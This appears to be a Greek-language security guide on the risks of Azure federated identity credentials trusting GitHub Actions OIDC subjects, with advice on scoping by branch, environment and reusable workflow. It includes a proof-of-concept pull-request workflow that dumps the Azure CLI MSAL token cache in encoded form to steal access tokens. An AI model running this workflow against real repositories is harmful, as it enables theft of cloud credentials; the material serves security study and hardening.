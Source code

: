 ## Πεδίο εφαρμογής και κίνδυνοι των τύπων subject του FIC

- Κλάδος/Ετικέτα: sub=repo:<org>/<repo>:ref:refs/heads/<branch> or ref:refs/tags/<tag>
- Κίνδυνος: Εάν ο κλάδος/ετικέτα δεν είναι προστατευμένος, οποιοσδήποτε contributor μπορεί να κάνει push και να αποκτήσει tokens.
- Περιβάλλον: sub=repo:<org>/<repo>:environment:<env>
- Κίνδυνος: Τα μη προστατευμένα περιβάλλοντα (χωρίς reviewers) επιτρέπουν στους contributors να δημιουργήσουν tokens.
- Pull request: sub=repo:<org>/<repo>:pull_request
- Υψηλότερος κίνδυνος: Οποιοσδήποτε συνεργάτης μπορεί να ανοίξει ένα PR και να ικανοποιήσει το FIC.

PoC: PR‑triggered token theft (exfiltrate the Azure CLI cache written by azure/login):
```yaml
name: Steal tokens
on: pull_request
permissions:
id-token: write
contents: read
jobs:
extract-creds:
runs-on: ubuntu-latest
steps:
- name: azure login
uses: azure/login@v2
with:
client-id: ${{ secrets.AZURE_CLIENT_ID }}
tenant-id: ${{ secrets.AZURE_TENANT_ID }}
subscription-id: ${{ secrets.AZURE_SUBSCRIPTION_ID }}
- name: Extract access token
run: |
# Azure CLI caches tokens here on Linux runners
cat /home/runner/.azure/msal_token_cache.json | base64 -w0 | base64 -w0
# Decode twice locally to recover the bearer token
```
Σχετικές τοποθεσίες αρχείων και σημειώσεις:
- Linux/macOS: ~/.azure/msal_token_cache.json περιέχει MSAL tokens για τις συνεδρίες του az CLI
- Windows: msal_token_cache.bin στο προφίλ χρήστη; προστατευμένο με DPAPI

## Επαναχρησιμοποιήσιμα workflows και scoping του job_workflow_ref

Η κλήση μιας επαναχρησιμοποιήσιμης ροής εργασίας προσθέτει το job_workflow_ref στο GitHub ID token, π.χ.:
```
ndc-security-demo/reusable-workflows/.github/workflows/reusable-file-upload.yaml@refs/heads/main
```
Παράδειγμα FIC για να δεσμεύσει τόσο το caller repo όσο και το reusable workflow:
```
sub=repo:<org>/<repo>:job_workflow_ref:<org>/<reusable-repo>/.github/workflows/<file>@<ref>
```
Διαμορφώστε τα claims στο caller repo ώστε τόσο το repo όσο και το job_workflow_ref να υπάρχουν στο sub:
```http
PUT /repos/<org>/<repo>/actions/oidc/customization/sub HTTP/2
Host: api.github.com
Authorization: token <access token>

{"use_default": false, "include_claim_keys": ["repo", "job_workflow_ref"]}
```
Προειδοποίηση: Αν δεσμεύσετε μόνο το job_workflow_ref στο FIC, ένας επιτιθέμενος θα μπορούσε να δημιουργήσει ένα διαφορετικό repo στην ίδια org, να τρέξει το ίδιο reusable workflow στο ίδιο ref, να ικανοποιήσει το FIC και να δημιουργήσει tokens. Συμπεριλάβετε πάντα και το caller repo.
